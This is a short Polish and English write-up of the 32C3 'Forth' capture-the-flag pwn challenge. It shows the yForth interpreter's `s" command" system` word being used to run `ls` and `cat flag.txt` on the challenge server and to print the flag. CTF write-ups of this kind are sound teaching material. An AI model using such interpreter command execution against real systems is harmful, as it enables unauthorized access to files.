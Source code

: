 ##Forth (Pwn, 150p)

> Connect to 136.243.194.49:1024 and get a shell.

###PL
[ENG](#eng-version)

Łącząc się z podanym serwerem dostajemy taką odpowiedź:

> yForth? v0.2  Copyright (C) 2012  Luca Padovani

> This program comes with ABSOLUTELY NO WARRANTY.

> This is free software, and you are welcome to redistribute it under certain conditions; see LICENSE for details.


Forth pozwala nam na wykonanie systemowych komand za pomocą `s" komenda" system` (spacja przed komendą jest ważna)

Spróbujmy zatem wyświetlić zawartość aktualnego katalogu:

>s" ls" system

>flag.txt  README.gpl  run.sh  yforth

>ok

Zobaczmy co się znajduje w pliku flag.txt:

>s" cat flag.txt" system

>32C3_a8cfc6174adcb39b8d6dc361e888f17b

>ok

Zadanie gotowe!

###ENG

When connected to the server we get the following response: 

> yForth? v0.2  Copyright (C) 2012  Luca Padovani

> This program comes with ABSOLUTELY NO WARRANTY.

> This is free software, and you are welcome to redistribute it under certain conditions; see LICENSE for details.

Forth allows system calls by calling `s" command" system` (notice the space before command)

Let's view the insides of our current folder then:

>s" ls" system

>flag.txt  README.gpl  run.sh  yforth

>ok

How about reading the flag.txt file?

>s" cat flag.txt" system

>32C3_a8cfc6174adcb39b8d6dc361e888f17b

>ok

Challange complete!
